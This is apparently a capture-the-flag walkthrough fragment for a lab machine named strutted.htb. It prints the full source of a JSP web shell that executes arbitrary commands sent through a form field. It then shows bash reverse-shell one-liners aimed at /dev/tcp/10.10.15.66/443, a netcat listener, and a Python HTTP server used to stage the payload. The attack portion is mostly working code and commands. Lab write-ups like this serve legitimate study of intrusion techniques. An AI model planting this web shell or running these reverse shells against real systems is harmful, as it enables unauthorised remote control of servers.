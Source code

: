 ```html
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

http://strutted.htb/test.jsp

- Put cmd commands in the input field

- After all, we can unse nc to listen on por 443 and send onelnier in the web input field:
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.66/443 0>&1"
```

```bash
nc -nlvp 443
```

- We cant send oneliner. THen we have to create a file named index.html that contains part of the oneliner. Create a python server to make a crul on the html input field

```html
bash -i &> /dev/tcp/10.10.15.66/443 0>&1
```
```py

python3 -m http.server 80
```
